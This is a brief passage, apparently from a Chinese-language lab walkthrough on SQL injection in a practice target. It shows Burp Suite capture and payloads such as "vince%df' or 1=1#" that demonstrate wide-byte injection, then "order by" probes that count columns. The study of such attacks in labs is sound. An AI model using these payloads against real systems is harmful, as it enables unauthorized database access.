 输入`vince`并使用burpsuite抓包

![img](../../_img/05-SQL%E6%B3%A8%E5%85%A5/1655882654048-0ccf5706-2d4f-4113-85b0-5f14f7fc771e.png)



输入

```plain
vince' or 1=1#      报错vince%df' or 1=1#   成功
```



说明存在宽字节注入

![img](../../_img/05-SQL%E6%B3%A8%E5%85%A5/1655882660630-70d05fe3-49d2-477b-8912-0f2adb5d4f02.png)



输入

```plain
vince%df' order by 2#  成功vince%df' order by 3#  失败
```
